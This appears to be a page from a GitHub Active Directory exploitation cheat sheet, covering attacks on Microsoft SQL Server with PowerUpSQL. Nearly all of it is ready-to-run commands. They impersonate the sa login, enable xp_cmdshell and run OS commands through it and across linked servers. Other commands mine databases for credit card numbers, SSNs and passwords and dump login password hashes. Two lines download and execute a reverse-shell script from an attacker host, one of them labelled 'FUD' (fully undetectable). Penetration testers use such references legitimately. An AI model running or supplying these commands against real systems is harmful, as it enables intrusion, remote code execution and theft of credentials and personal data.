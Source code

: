 ## MSSQL

Tool : PowerUpSQL
```powershell
Import-Module .\PowerupSQL.psd1
```
#### Discovery (SPN Scanning)
```powershell
Get-SQLInstanceDomain
```
#### Discover Local SQL Server Instances
```powershell
Get-SQLInstanceLocal -Verbose
```
#### Discover Remote SQL Server Instances
```powershell
Get-SQLInstanceBroadcast -Verbose
Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1
Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose
```
#### Discover Active Directory Domain SQL Server Instances using alternative domain credentials
```powershell
runas /noprofile /netonly /user:domain\user PowerShell.exe
import-module PowerUpSQL.psd1
Get-SQLInstanceDomain -Verbose -DomainController 172.16.0.1 -Username domain\user -password 'P@ssword123'
```
#### Check Accessibility
```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
#### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```
#### Look for links to remote servers
```powershell
Get-SQLServerLink -Instance db-mssql -Verbose
```
#### Enumerating Database Links
```powershell
Get-SQLServerLinkCrawl -Instance db-mssql -Verbose
```
#### List SQL Servers using a specific domain account
```powershell
Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc
```
#### List shared domain user SQL Server service accounts
```powershell
Get-SQLInstanceDomain -Verbose | Group-Object DomainAccount | Sort-Object count -Descending | select Count,Name | Where-Object {($_.name -notlike "*$") -and ($_.count -gt 1) }
```
#### Authenticating to a known SQL Server instance as the current domain user.
```powershell
Get-SQLQuery -Verbose -Instance "10.2.2.5,1433"
```
#### Authenticating to a known SQL Server instance using a SQL Server login.
```powershell
# Server and Instance Name
Get-SQLQuery -Verbose -Instance "servername\instancename" -username testuser -password testpass
# IP and Instance Name
Get-SQLQuery -Verbose -Instance "10.2.2.5\instancename" -username testuser -password testpass
# IP and Port
Get-SQLQuery -Verbose -Instance "10.2.2.5,1433" -username testuser -password testpass
```
#### Get general server information such as SQL/OS versions, service accounts, sysdmin access etc.
```powershell
Get-SQLServerInfo -Verbose -Instance SQLServer1\Instance1
#
$ServerInfo = Get-SQLInstanceDomain | Get-SQLServerInfoThreaded -Verbose -Threads 10
$ServerInfo
```
#### Get an inventory of common objects from the remote server including permissions, databases, tables, views etc, and dump them out into CSV files.
```powershell
Invoke-SQLDumpInfo -Verbose -Instance Server1\Instance1
```

---
#### Audit for Issues
```powershell
Invoke-SQLAudit -Verbose -Instance SQLServer1
```
#### Audit for Impersonate login
```powershell
Invoke-SQLAuditPrivImpersonateLogin -Instance SQLServer1 -Verbose -Debug -Exploit
```
Loock for :
- CONNECTION SUCCESS.
- Logins can be impersonated.
- can impersonate the sa sysadmin login.
- DOMAIN\user can impersonate the dbaccount login

#### Manual Impersonate login
> MIMIKATZ PTT
> Exec HeidiSQL

```mssql
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'

-- Enable show options
EXEC sp_configure 'show advanced options',1
RECONFIGURE

-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE

-- RCE via xp_cmdshell
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10/revshell.ps1'')"'
```

#### Manual Check
```mssql
-- Verify you are still running as the dbadmin login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

EXEC master..xp_cmdshell 'hostname'
```

#### Manual Crawling
```mssql
-- Check 2 hops + databases
SELECT * FROM OPENQUERY("SRV1",
'SELECT * FROM OPENQUERY("SRV2",
''SELECT name FROM master..sysdatabases'')')
```


---
#### Execute OS commands: Agent Job - PowerShell
```powershell
$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20
```
#### Xp_cmdshell v1
```powershell
Get-SQLServerLinkCrawl -Instance db-mssql -Query "sp_configure 'show advanced options', '1'"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "RECONFIGURE"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "sp_configure 'xp_cmdshell', '1'"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "RECONFIGURE"
```
#### Xp_cmdshell v2
```powershell
Get-SQLQuery -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'
```
#### Xp_cmdshell v3
```powershell
Get-SQLServerLinkCrawl -Instance DOMAIN\SQLEXPRESS 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'
```
#### OSQL Xp_cmdshell
```powershell
osql -E -S "db-mssql" -Q "EXECUTE('sp_configure ''xp_cmdshell'',1;RECONFIGURE;') AT [msqlsrv.domain.local]"
```
#### Executing Commands
```powershell
Get-SQLServerLinkCrawl -Instance db-mssql -Query "exec master..xp_cmdshell "whoami'"
```
#### Reverse shell
```powershell
Get-SQLServerLinkCrawl -Instance db-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:1433/revshell_FUD.ps1'')"'
```
#### Data mining
```sql
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "credit,ssn,password" -SampleSize 2 -ValidateCC -NoDefaults
```
#### Check files
```sql
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq "TRUE"} | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword "card, password" -SampleSize 2 -ValidateCC -NoDefaults
```
#### Extracting SQL Server Login password hashes
```sql
Get-SQLServerPasswordHash -Verbose -Instance MSSQLSERVER2016\db-mssql -Migrate
```

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)